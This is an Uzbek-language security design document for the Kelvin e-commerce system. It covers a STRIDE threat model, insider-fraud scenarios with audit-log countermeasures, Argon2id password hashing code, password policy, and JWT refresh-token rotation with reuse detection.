



# 11 — Xavfsizlik

> Modullar: `identity` (kanon §7, №1), `admin` (№17) — lekin xavfsizlik **barcha** modullarga tegishli
> Entity'lar: `User`, `Session`, `RefreshToken`, `AuditLog`
> Bog'liq hujjatlar: `docs/08-payments-and-installments.md`, `docs/07-order-and-checkout.md`,
> `docs/06-inventory-and-reservations.md`, `docs/10-crm-pos-analytics.md`, `docs/12-infrastructure.md`

---

## 0. Bu hujjat nima haqida

Bu hujjat Kelvin'ning tahdid modelini va unga qarshi choralarni belgilaydi.

**Eng muhim gap boshida:** Kelvin uchun eng katta xavf tashqi haker emas. Bitta
do'konning yoritish katalogi hech kimni qiziqtirmaydi. Eng katta xavf —
**ichkarida**: chegirma huquqi bor sotuvchi, qoldiqni "tuzatadigan" ombor xodimi,
naqd pul bilan ishlaydigan kassir. Bu hujjat shuning uchun `AuditLog` va
rol chegaralariga tashqi perimetr himoyasidan ko'ra ko'proq joy ajratadi.

### 0.1. Nima YOZILMAYDI

- **Yuridik talqin.** O'zbekiston "Shaxsga doir ma'lumotlar to'g'risida"gi qonuni
  nimani talab qiladi — bu **yurist savoli** (kanon §10). Bu hujjat savolni
  aniq qo'yadi, javob bermaydi. §6 — bloker.
- **PCI DSS sertifikatlash.** Kelvin karta ma'lumotiga umuman tegmaydi (§4).
  Sertifikat kerak emas — chunki scope'ga tushmaymiz.
- **Click/Payme imzo algoritmi detallari** — rasmiy hujjatdan tekshiriladi
  (kanon §10). `docs/08-payments-and-installments.md`.
- **Penetratsiya testi natijalari** — hali o'tkazilmagan (§14).

### 0.2. Xavfsizlik byudjeti haqida halol gap

Bu bitta do'kon. WAF, SIEM, 24/7 SOC, bug bounty dasturi — **ortiqcha**.
Bu hujjat "hamma narsani yoqamiz" demaydi. U kam sonli, lekin **haqiqatan
kerak** bo'lgan choralarni tanlaydi va nega boshqalari tanlanmaganini aytadi.

Tanlash mezoni oddiy: **agar bu chora ishlamasa, kim qancha pul yo'qotadi?**

| Chora                          | Ishlamasa                               | Prioritet                                  |
| ------------------------------ | --------------------------------------- | ------------------------------------------ |
| Narx serverda hisoblanishi     | Mijoz qandilni 1000 so'mga oladi        | **P0**                                     |
| Webhook imzo tekshiruvi        | Soxta "to'landi" → tovar tekinga ketadi | **P0**                                     |
| Audit log                      | Ichki o'g'irlik isbotlanmaydi           | **P0**                                     |
| Refresh reuse detection        | O'g'irlangan sessiya cheksiz yashaydi   | **P1**                                     |
| Raqib scraping'ini sekinlatish | Raqib narxni biladi                     | **P3** (§1.5 — halol: to'xtatib bo'lmaydi) |

---

## 1. Threat model — STRIDE

### 1.1. Metodologiya

STRIDE — Microsoft'ning tahdid tasnifi: **S**poofing (kimligini soxtalashtirish),
**T**ampering (o'zgartirish), **R**epudiation (rad etish), **I**nformation
disclosure (ma'lumot sizishi), **D**enial of service, **E**levation of privilege
(huquq oshirish).

STRIDE tanlandi, chunki u aktivga bog'lanadi: har aktiv uchun oltita savol
beriladi. Bu "xavfsizlik haqida o'ylab ko'ramiz" dan ko'ra tekshiriladigan.

### 1.2. Aktivlar

Aktiv — himoya qilinadigan narsa. Kelvin'da ettita:

| #   | Aktiv                       | Nima                                            | Yo'qotilsa nima bo'ladi            |
| --- | --------------------------- | ----------------------------------------------- | ---------------------------------- |
| A1  | **Mijoz shaxsiy ma'lumoti** | Ism, telefon, manzil, buyurtma tarixi           | Yuridik javobgarlik (⚖️ §6), obro' |
| A2  | **To'lov**                  | Click/Payme tranzaksiyalari, rassrochka grafigi | To'g'ridan-to'g'ri pul yo'qotish   |
| A3  | **Buyurtma**                | `Order`, holat, manzil, summa                   | Pul + operatsion tartibsizlik      |
| A4  | **Narx va chegirma**        | `Price`, `Discount`, `Promotion`                | Foyda marjasining yo'qolishi       |
| A5  | **Qoldiq**                  | `StockItem`, `StockMovement`                    | O'g'irlikning yashirilishi         |
| A6  | **Ledger**                  | `LedgerEntry` — pul harakati yozuvi             | Buxgalteriya ishonchsiz bo'ladi    |
| A7  | **Admin panel**             | Butun tizim boshqaruvi                          | Hammasi                            |

**Aktivlar orasidagi bog'liqlik muhim:** A7 (admin) buzilsa — A4, A5, A6 avtomatik
buzilgan hisoblanadi. Shuning uchun admin panel himoyasi eng qattiq (§2.6 — 2FA).

### 1.3. Hujumchi profillari

Xavfsizlik "hujumchi" degan mavhum figurani emas, **aniq odamlarni** ko'zda tutishi kerak:

| #      | Profil                      | Motivatsiya                                    | Imkoniyat                             | Kelvin uchun realmi                                                              |
| ------ | --------------------------- | ---------------------------------------------- | ------------------------------------- | -------------------------------------------------------------------------------- |
| **P1** | **Tashqi opportunist**      | Avtomatik skanerlar, ma'lum CVE, default parol | Past — skript kiddie                  | **Ha.** Har bir ochiq port buni ko'radi                                          |
| **P2** | **Raqib do'kon**            | Narx, assortiment, qoldiq razvedkasi           | O'rta — scraper yozadi yoki yozdiradi | **Ha.** §1.5                                                                     |
| **P3** | **Ichki xodim**             | Pul. Chegirma, qoldiq, naqd                    | **Yuqori — u allaqachon ichkarida**   | **Ha, va eng ehtimoliy.** §1.6                                                   |
| **P4** | **Bot / scraper**           | Kontent nusxalash, OTP flood, savat spam       | O'rta                                 | **Ha.** OTP flood — pul turadi (§8.4)                                            |
| **P5** | **Maqsadli hujumchi (APT)** | —                                              | Yuqori                                | **Yo'q.** Bitta yoritish do'koni APT nishoni emas. Halol: bunga qarshi qurmaymiz |

> **P5 ni ochiq rad etamiz.** Davlat darajasidagi hujumchiga qarshi himoya qurish
> bu loyihaning byudjetida ham, ma'nosida ham yo'q. Agar Kelvin shunday nishonga
> aylansa — bu hujjat qayta yoziladi.

### 1.4. STRIDE matritsasi

| Aktiv                  | S — soxtalashtirish                  | T — o'zgartirish                                               | R — rad etish           | I — sizish                                                | D — DoS                       | E — huquq oshirish                  |
| ---------------------- | ------------------------------------ | -------------------------------------------------------------- | ----------------------- | --------------------------------------------------------- | ----------------------------- | ----------------------------------- |
| **A1 Mijoz ma'lumoti** | Boshqa mijoz nomidan kirish          | Manzilni almashtirish                                          | —                       | **IDOR: `/orders/{id}` (§3.4)**, mehmon buyurtmasi (§2.7) | —                             | Mijoz → admin                       |
| **A2 To'lov**          | **Soxta webhook (§4.3)**             | Summani o'zgartirish                                           | "Men to'lamadim"        | Karta ma'lumoti — **saqlanmaydi (§4.1)**                  | To'lov provayderi yotsa       | Refund huquqi                       |
| **A3 Buyurtma**        | Mehmon buyurtmasini ko'rish          | Holatni o'zgartirish                                           | "Men buyurtma bermadim" | Boshqa mijoz buyurtmasi                                   | Savat spam                    | Kuryer → boshqa jo'natma            |
| **A4 Narx/chegirma**   | —                                    | **Mijoz `price` yuboradi (§5.1)**, chegirma brute-force (§5.2) | —                       | Raqib scraping (§1.5)                                     | —                             | **Sotuvchi o'ziga chegirma (§1.6)** |
| **A5 Qoldiq**          | —                                    | **"Inventarizatsiya tuzatishi" (§1.6)**                        | Kim yozganini bilmaslik | Raqib qoldiqni biladi                                     | Rezerv flood → oversell bloki | Ombor xodimi → chiqim               |
| **A6 Ledger**          | —                                    | **Yozuvni o'chirish/o'zgartirish**                             | Buxgalteriya nizosi     | Aylanma ma'lumoti                                         | —                             | —                                   |
| **A7 Admin panel**     | Parol o'g'irlash, sessiya o'g'irlash | —                                                              | —                       | Butun baza                                                | —                             | **Rol berish (§11.3)**              |

Qalin bilan belgilangan hujayralar — bu hujjatda alohida bo'lim bilan yoritilganlari.
Belgilanmaganlari standart choralar bilan qoplanadi (§10 — OWASP jadvali).

### 1.5. Raqib scraping — halol muhokama

Bu e-commerce'ga xos tahdid va uni **ochiq gapirish kerak**.

**Vaziyat:** Kelvin narxlarni ochiq saytda ko'rsatadi. Raqib do'kon har kuni
katalogni aylanib chiqib, narxlarni yig'adi va o'zinikini bir foizga past qo'yadi.

**Birinchi haqiqat: buni to'liq to'xtatib bo'lmaydi.**

Narx **ochiq bo'lishi kerak** — mijoz uni ko'rmasa, sotib olmaydi. Brauzer ko'ra
olgan narsani skript ham ko'ra oladi. Har qanday himoya — bu faqat **narxni
oshirish**, to'sish emas:

| Chora                       | Nima beradi                          | Nimaga to'xtatmaydi                                         |
| --------------------------- | ------------------------------------ | ----------------------------------------------------------- |
| Rate limiting (IP bo'yicha) | Sodda skriptni sekinlatadi           | Proksi puli — arzon                                         |
| User-Agent tekshiruvi       | `curl` ni to'xtatadi                 | `--user-agent` bitta flag                                   |
| CAPTCHA                     | Avtomatlashtirishni qimmatlashtiradi | **Mijozni ham to'sadi.** Konversiya tushadi                 |
| JS-rendering talabi         | Sodda HTTP scraper'ni sindiradi      | Playwright — 20 qator kod. **SEO ni o'ldiradi** (`docs/13`) |
| Narxni rasmda ko'rsatish    | Text parsing'ni sindiradi            | OCR. **A11y va SEO halokati.** Qilinmaydi                   |

**Kelvin qarori — o'rtacha yo'l:**

1. **Rate limiting** — anonim katalog so'rovlariga IP bo'yicha (§8.3). Bu asosan
   infratuzilmani himoya qiladi, narxni emas.
2. **Anomaliya aniqlash → alert, blok EMAS.** Bitta IP soatiga 5000 mahsulot
   sahifasini ochsa — do'kon egasiga xabar. Qaror odamga qoladi.
3. **CAPTCHA — faqat login va OTP'da.** Katalogda **yo'q**: mijozni jazolash
   raqibga yetkazilgan zarardan katta.
4. **`robots.txt`** — halol bot'lar uchun. Yomon bot buni o'qimaydi, lekin bu
   yuridik pozitsiya uchun kerak (⚖️ — bu ham yurist savoli).

**Ikkinchi haqiqat (biznes gapi, texnik emas):** raqib narxni **baribir biladi** —
u shunchaki do'konga kirib ko'radi yoki tanishiga so'ratadi. Narxni maxfiy deb
hisoblash — noto'g'ri model. Agar biznes strategiyasi "narximizni raqib bilmasin"
ga qurilgan bo'lsa — muammo strategiyada, xavfsizlikda emas.

> **Ochiq savol (§15):** narx razvedkasi haqiqatan tashvishmi? Agar ha —
> bu **biznes** qarori (masalan, ro'yxatdan o'tgan mijozga alohida narx),
> texnik chora emas.

### 1.6. Ichki tahdid — bu hujjatning eng muhim bo'limi

**Sabab:** ichki xodim allaqachon autentifikatsiyadan o'tgan. Firewall, HTTPS,
Argon2id — hech biri unga to'sqinlik qilmaydi. U tizimdan **ruxsat etilgan
tarzda** foydalanib o'g'irlaydi.

#### Ssenariy 1 — sotuvchi chegirma bilan o'g'irlik

Sotuvchining chegirma berish huquqi bor (bu normal — bozorlik qilish O'zbekistonda
savdo madaniyati). Hujum:

1. Mijoz 5 000 000 so'mlik qandil sotib oladi, naqd to'laydi.
2. Sotuvchi tizimga **20% chegirma** kiritadi → 4 000 000 so'm.
3. Mijozdan 5 000 000 oladi, kassaga 4 000 000 qo'yadi.
4. **1 000 000 so'm — cho'ntakka.** Kassa balansi to'g'ri. Qoldiq to'g'ri.
   Hech narsa "buzilmagan".

**Nega texnik himoya yolg'iz yetarli emas:** chegirma — qonuniy funksiya.
Uni o'chirish savdoni o'ldiradi.

**Choralar (chuqurlikda himoya):**

| Chora                                   | Qanday                                                | Cheklovi                                   |
| --------------------------------------- | ----------------------------------------------------- | ------------------------------------------ |
| **Chegirma limiti rolga bog'liq**       | `SELLER` → maks N%; undan yuqorisi `MANAGER` tasdig'i | N noma'lum — do'kon egasi belgilaydi (§15) |
| **Har chegirma `AuditLog` da**          | Kim, qancha, qaysi buyurtma, sabab (majburiy matn)    | Log o'qilmasa — foydasi yo'q               |
| **Sotuvchi bo'yicha chegirma hisoboti** | O'rtacha chegirma % — sotuvchilar kesimida            | Statistik anomaliya ≠ isbot                |
| **Mijozga chek/SMS**                    | Mijoz **yakuniy summani** ko'radi                     | Mijoz e'tibor bermasligi mumkin            |

> **Eng kuchli chora — texnik emas:** mijozga yuborilgan SMS'da yakuniy summa
> bo'lsa, sotuvchi qo'shimcha pul so'rashi mumkin emas — mijoz nomuvofiqlikni
> ko'radi. Bu `notification` moduli orqali (`docs/09`), lekin **xavfsizlik
> chorasi** sifatida qaraladi.

#### Ssenariy 2 — ombor xodimi qoldiqni "tuzatadi"

1. Xodim omborga bir dona LED lenta oladi.
2. Tizimda inventarizatsiya farqi paydo bo'ladi: 10 emas, 9.
3. Xodim `Inventory` tuzatishi kiritadi: "hisoblash xatosi, −1".
4. Qoldiq mos keladi. **Tovar yo'q.**

**Choralar:**

| Chora                                  | Qanday                                                                                                  |
| -------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| **Tuzatish huquqi ≠ hisoblash huquqi** | Sanaydigan odam tuzata olmaydi. `INVENTORY_COUNT` va `INVENTORY_ADJUST` — **alohida** huquq (`docs/06`) |
| **Har tuzatish sababli**               | Erkin matn majburiy, `AuditLog` ga                                                                      |
| **Summa chegarasi**                    | Tannarxi X dan katta tuzatish → `MANAGER` tasdig'i. X noma'lum (§15)                                    |
| **Tuzatish hisoboti**                  | Xodim kesimida: kim eng ko'p "tuzatadi"                                                                 |
| **Ikki kishi qoidasi**                 | Qimmat pozitsiyalarni ikki xodim sanaydi. Operatsion, texnik emas                                       |

#### Ssenariy 3 — kassir va naqd

`docs/10-crm-pos-analytics.md` §POS da: smena ochilishi/yopilishi, naqd
sanog'i, `DISCREPANCY` holati. Bu yerda takrorlanmaydi.

#### Umumiy printsip

> **Kelvin ichki o'g'irlikni to'sa olmaydi. U uni KO'RINADIGAN qiladi.**

Bu ataylab tanlangan pozitsiya. To'liq to'sish uchun har amalni ikkinchi odam
tasdiqlashi kerak bo'lardi — bu bitta do'konni ishlamaydigan holga keltiradi
(u yerda ba'zan **jami 3 kishi** ishlaydi). Shuning uchun model:

1. Har muhim amal — `AuditLog` da, **o'zgartirib bo'lmaydigan** (§11).
2. Anomaliya — hisobotda ko'rinadi.
3. Qaror — odamniki.

**Bu shuni anglatadiki:** agar `AuditLog` ishlamasa yoki hech kim hisobotni
o'qimasa — bu bo'lim **butunlay befoyda**. Shuning uchun §11 da audit log
immutability DB darajasida majburlanadi, va §15 da "kim hisobotni o'qiydi?"
ochiq savol sifatida turadi.

---

## 2. Autentifikatsiya

### 2.1. Parol xeshlash — Argon2id

Kanon §6 Argon2id ni belgilaydi. Bu yerda **nega** bcrypt emasligini yozamiz,
chunki bcrypt hali ham eng ko'p uchraydigan tanlov.

| Mezon | bcrypt | Argon2id |
|---|---|---|
| Yosh | 1999 | 2015 (Password Hashing Competition g'olibi) |
| **Memory-hard** | **Yo'q** — ~4 KB doimiy | **Ha** — sozlanadigan (biz: ~19 MB) |
| GPU'da hujum | **Arzon.** GPU minglab yadro × 4 KB — bemalol sig'adi | **Qimmat.** 19 MB × 10 000 parallel = 190 GB RAM kerak |
| ASIC/FPGA | Zaif | Chidamli |
| Parol uzunligi limiti | **72 bayt** (jimgina kesiladi!) | Yo'q |
| Rejimlar | Bitta | `argon2i` / `argon2d` / **`argon2id`** (gibrid) |

**Asosiy sabab — memory-hard.** bcrypt faqat CPU vaqtini talab qiladi. Zamonaviy
GPU (masalan, ijaraga olinadigan) parallel ravishda o'n minglab bcrypt xeshini
sinab ko'ra oladi, chunki har biri atigi 4 KB xotira oladi. Argon2id har urinishga
19 MB talab qilsa — GPU xotirasi hujumni tabiiy ravishda cheklaydi.

**Nega aynan `argon2id` (`argon2i` yoki `argon2d` emas):**

- `argon2d` — xotiraga ma'lumotga bog'liq murojaat → tez, lekin **side-channel**
  hujumga zaif.
- `argon2i` — ma'lumotdan mustaqil murojaat → side-channel'ga chidamli, lekin
  GPU'ga nisbatan zaifroq.
- `argon2id` — gibrid: birinchi yarim o'tish `argon2i`, qolgani `argon2d`.
  **OWASP tavsiyasi aynan shu.** Server tarafda parol xeshlash uchun to'g'ri tanlov.

**Parametrlar:**

```ts
// apps/api/src/modules/identity/password/password.service.ts
import * as argon2 from 'argon2';

/**
 * OWASP Password Storage Cheat Sheet tavsiya qilgan minimal konfiguratsiya.
 *
 * DIQQAT: bu qiymatlar OWASP'ning MINIMAL tavsiyasi, Kelvin uchun
 * o'lchanmagan. Maqsad — prod serverida bitta xeshlash ~50-100 ms.
 * Bu chegara tanlangan sabab:
 *   - < 50 ms  -> hujumchi uchun juda arzon
 *   - > 100 ms -> login sekin, va DoS vektori (8.2: 100 parallel login
 *                = 1.9 GB RAM va CPU to'yinishi)
 * PROD PARAMETRLARI BENCHMARK BILAN TASDIQLANISHI KERAK (15-bo'lim, savol 3).
 */
export const ARGON2_OPTIONS: argon2.Options = {
  type: argon2.argon2id,
  memoryCost: 19456, // 19 MiB (OWASP minimal)
  timeCost: 2,       // iteratsiya
  parallelism: 1,    // lane soni
};

export class PasswordService {
  async hash(plain: string): Promise<string> {
    // argon2 kutubxonasi salt'ni o'zi generatsiya qiladi (16 bayt, CSPRNG)
    // va uni natija satriga kiritadi. Salt'ni qo'lda boshqarish SHART EMAS
    // va xato manbai bo'ladi.
    return argon2.hash(plain, ARGON2_OPTIONS);
  }

  async verify(hash: string, plain: string): Promise<boolean> {
    try {
      return await argon2.verify(hash, plain);
    } catch {
      // Buzilgan xesh satri -> false. Xatoni "yuqoriga" chiqarmaymiz:
      // aks holda hujumchi xato turi bo'yicha ma'lumot oladi.
      return false;
    }
  }

  /**
   * Parametrlar oshirilganda eski xeshlarni asta ko'chirish.
   * Login muvaffaqiyatli bo'lgan payt — plain parol qo'limizda bo'lgan
   * YAGONA moment. Aynan shunda qayta xeshlaymiz.
   */
  needsRehash(hash: string): boolean {
    return argon2.needsRehash(hash, ARGON2_OPTIONS);
  }
}
```

**Xesh formati** (`argon2.hash` natijasi) — PHC string:

```
$argon2id$v=19$m=19456,t=2,p=1$c29tZXNhbHQ$RdescudvJCsgt3ub+b+dWRWJTmaaJObG
 |algoritm |ver |parametrlar     |salt      |xesh
```

Parametrlar xesh **ichida** saqlangani muhim: `memoryCost` ni ertaga oshirsak,
eski xeshlar baribir tekshiriladi (o'zining eski parametri bilan), keyin
`needsRehash` → yangi parametr bilan qayta yoziladi. Migratsiya kerak emas.

**Native binding ogohlantirishi:** `argon2` npm paketi — native C kutubxona.
Bu Docker build'da alohida ehtiyot talab qiladi (`docs/12-infrastructure.md` §3).

### 2.2. Parol siyosati

| Qoida | Qiymat | Sabab |
|---|---|---|
| Minimal uzunlik | 8 belgi | NIST SP 800-63B. Uzunlik > murakkablik |
| Maksimal uzunlik | 128 belgi | DoS oldini olish (§8.2). Argon2'da 72-bayt limiti yo'q |
| Murakkablik talabi | **YO'Q** | NIST: "1 ta katta harf + 1 raqam" → `Parol1!`. Foydasi yo'q, UX yomon |
| Ma'lum sizgan parollar | **Bloklanadi** | HIBP k-anonymity API yoki lokal ro'yxat (§15, savol 4) |
| Majburiy almashtirish | **YO'Q** | NIST: majburiy almashtirish → `Parol1` → `Parol2`. Faqat sizish shubhasida |
| Parol tarixi | Oxirgi 3 ta | Faqat ADMIN/OWNER uchun |

> **Halol izoh:** "murakkablik talabi yo'q" ko'pchilikka noto'g'ri tuyuladi, chunki
> u hamma joyda bor. NIST SP 800-63B (2017) uni **ataylab olib tashlagan**: u
> parolni kuchaytirmaydi, faqat foydalanuvchini oldindan aytib bo'ladigan
> naqshlarga majbur qiladi. Uzunlik + sizgan parollar ro'yxati — samaraliroq.

### 2.3. Token strategiyasi

Kanon §6: JWT access ~15 min + refresh ~30 kun rotatsiya bilan.

| Token | Muddat | Format | Qayerda saqlanadi | Nima uchun |
|---|---|---|---|---|
| **Access** | ~15 daqiqa | JWT (imzolangan, shifrlanmagan) | **Faqat JS xotirasida** | Har so'rovda; stateless tekshiruv |
| **Refresh** | ~30 kun | Opaque (tasodifiy 32 bayt) | httpOnly cookie | Yangi access olish |

**Nega access — JWT, refresh — opaque:**

Access token har so'rovda tekshiriladi. Agar u opaque bo'lsa — har so'rov DB'ga
boradi. JWT imzosi lokal tekshiriladi, DB kerak emas.

Refresh token kamdan-kam (15 daqiqada bir marta) ishlatiladi, lekin **bekor
qilinishi** shart (§2.4). JWT'ni bekor qilib bo'lmaydi — u o'z-o'zidan yetarli.
Shuning uchun refresh — DB'dagi tasodifiy satr. Bekor qilish = qatorni yangilash.

> Bu **ataylab qilingan assimetriya**: access — tezlik uchun stateless,
> refresh — nazorat uchun stateful. "Hammasi JWT" yoki "hammasi session" —
> ikkalasi ham bir tomonni qurbon qiladi.

**Access token payload'i:**

```ts
// packages/contracts/src/auth/jwt-payload.ts
export interface AccessTokenPayload {
  sub: string;        // User.id (UUID v7)
  role: UserRole;     // OWNER | ADMIN | MANAGER | SELLER | ...
  sid: string;        // Session.id — sessiya bo'yicha bekor qilish uchun
  fid: string;        // familyId — 2.4-bo'lim
  iat: number;
  exp: number;
  jti: string;        // UUID — replay tekshiruvi uchun (kerak bo'lsa)
}
```

**Payload'da NIMA YO'Q va nega:**

- **Telefon, ism, email — yo'q.** JWT — base64, **shifrlanmagan**. Kim uni
  ko'rsa — o'qiy oladi. Shaxsiy ma'lumot u yerga tushmaydi (§6.3).
- **Huquqlar ro'yxati (permissions) — yo'q, faqat `role`.** Sabab: huquq
  o'zgarsa (masalan, sotuvchi ishdan bo'shatildi), payload'dagi ro'yxat
  15 daqiqa eskirgan bo'ladi. Faqat rol saqlanadi, huquqlar serverda
  rol'dan hisoblanadi (§3.2).
- **`role` ham 15 daqiqa eskirishi mumkin.** Bu qabul qilingan xavf. Zudlik
  bilan bekor qilish kerak bo'lsa (§2.5) — `sid` bo'yicha Redis'da deny-list.

### 2.4. Refresh token rotation va reuse detection

> **Bu hujjatning eng texnik bo'limi.** Sabab: refresh token — eng uzoq yashaydigan
> sir. U o'g'irlansa, hujumchi 30 kun davomida hisobga kira oladi va **buni hech
> kim sezmaydi**. Rotation + reuse detection — bu holatni **aniqlanadigan** qiladi.

#### Muammo

Refresh token 30 kun yashaydi. Agar u bir marta o'g'irlansa (XSS, log'ga tushib
qolish, qurilma o'g'irlanishi, MITM), hujumchi:

- Undan cheksiz yangi access token oladi.
- Parol o'zgarsa ham (agar parol o'zgarishi sessiyalarni bekor qilmasa) ishlaydi.
- **Hech qanday iz qoldirmaydi** — u qonuniy foydalanuvchidan farq qilmaydi.

#### Yechim 1: rotation

Har `POST /auth/refresh` da:

1. Eski refresh token **bekor qilinadi** (`usedAt` qo'yiladi).
2. **Yangi** refresh token beriladi.

Endi har token **bir martalik**. Bu o'g'irlangan token'ning umrini
30 kundan → "keyingi qonuniy refresh'gacha" ga qisqartiradi.

#### Yechim 2: reuse detection — asosiy g'oya

Rotation o'zi yetarli emas. Savol: **allaqachon ishlatilgan token yana kelsa nima bo'ladi?**

Bu ikki holatda sodir bo'ladi:

- **Yaxshi holat:** tarmoq uzildi — mijoz javobni olmadi va qayta urindi.
- **Yomon holat:** token o'g'irlangan. Ikki taraf (haqiqiy foydalanuvchi va
  hujumchi) bir zanjirni ishlatmoqda.

**Ikkalasini farqlab bo'lmaydi.** Shuning uchun **eng yomonini** faraz qilamiz:

> Ishlatilgan token qayta kelsa → **butun oila (family) bekor qilinadi.**
> Ham hujumchi, ham haqiqiy foydalanuvchi tashqariga chiqariladi.
> Foydalanuvchi qayta login qiladi (biroz noqulaylik), hujumchi esa
> parolni bilmagani uchun **butunlay** chiqib ketadi.

#### `familyId` nima

Har login **yangi oila** yaratadi. Shu login'dan kelib chiqqan barcha rotatsiyalar
bir `familyId` ni meros qiladi:



Foydalanuvchi ham, hujumchi ham chiqariladi. Foydalanuvchi qayta login qilib
**yangi oila F2** ochadi. Hujumchida F2 dan hech narsa yo'q.

**Nega `userId` bo'yicha emas, aynan `familyId` bo'yicha:** foydalanuvchida
bir necha qurilma bo'lishi mumkin (telefon, ish kompyuteri). `userId` bo'yicha
bekor qilish — telefonidagi hujum sababli ish kompyuterini ham chiqarib yuboradi.
`familyId` — hujum sodir bo'lgan **zanjirni** izolyatsiya qiladi.

